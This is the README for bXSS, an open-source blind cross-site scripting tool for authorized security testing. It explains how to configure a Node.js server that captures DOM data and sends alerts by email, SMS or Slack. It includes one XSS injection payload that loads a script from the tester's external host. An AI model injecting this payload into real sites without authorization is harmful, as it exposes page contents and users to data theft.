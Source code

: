 # bXSS

bXSS is a simple Blind XSS application adapted from https://cure53.de/m, you can read about it [here](https://lewisardern.github.io/2017/12/10/blind-xss/).

![Gif of BlindXSS](./Images/cure53.gif)

bXSS will:

* [Email when the resource has been loaded via nodemailer ](./Images/email.jpg)
* [Send a SMS via Twilio](./Images/sms.jpg)
* [Send a Slack Message](./Images/slack.jpg)
* [Save to disk to review later (If necessary)](./Images/file.jpg)

# Requirements

* A server you control
* A usable domain
* A SSL/TLS Certificate, free from [Lets Encrypt](https://letsencrypt.org) 
* Node.js and Express
* A [Gmail](https://gmail.com) account, to send reports via Nodemailer
* A [Twilio Account](https://www.twilio.com/sms) (Optional) 
* A [Slack Token](https://api.slack.com/docs/token-types) (Optional)

# Step-Up

## Default
* cd bXSS && npm install 
* Update The Configuration || Environment Variables 
    * Domain
        * config.url = Domain intended for use e.g ardern.io
        * config.port = Port to run the Node.js app e.g 3030
    * Twilio <b>(Optional, if you don't want to use Twilio just delete all Twilio references from the config)</b> 
        * config.twilio.accountSid =   [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
        * config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
        * config.twilio.to = Your telephone number
        * config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
    * Slack <b>(Optional, if you don't want to use Slack just delete all Slack references from the config)</b> 
        * config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
        * config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
        * Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
    * Gmail <b>(Optional, if you don't want to use Gmail just delete all Gmail references from the config)</b>
        * config.gmail.user = Gmail Username
        * config.gmail.pass = Gmail Password
        * config.gmail.to = Where you want to send the emails
        * config.gmail.from = Who sent the message, usually Gmail Username
    * Rename configExample.js to config.js
* Start your app (depending on your preference)
    * node app.js
    * pm2 start app.js 
    * nodemon app.js

## Additional Steps

* Obtain a let's Encrypt cert
    * [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
    * [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
* I would recommend looking at setting up a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv) and skip the next step as I wouldn't want anyone to run express as root.
* Using Node.js
    * Update Configuration 
        * config.letsEncrypt.TLS = true;
        * config.letsEncrypt.publicKey = $Path/fullchain.pem
        * config.letsEncrypt.privateKey = $Path/privkey.pem
        * config.letsEncrypt.ca = $Path/chain.pem
* Start your app (depending on your preference)
    * node app.js
    * npm2 start app.js 
    * nodemon app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
````

The application has three core functions

* POST - /m (captures DOM information)  
* GET - /m (Loads the payload)
* Everything else - Loads alert(1)


# Contribute?

This was more of a fun personal project after seeing the example from [Mario Heiderich's](https://twitter.com/0x6D6172696F) AppSec Europe training and I wanted to have a reason to write more JavaScript and use some ES6. 

This is perfect for my needs, and maybe yours too; I would recommend looking at [Sleepy Puppy](https://github.com/Netflix/sleepy-puppy) or [XSS Hunter](https://xsshunter.com/features) to see if they are appropriate as they are extremly easy to get started with, especially XSS Hunter's online version. 

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).

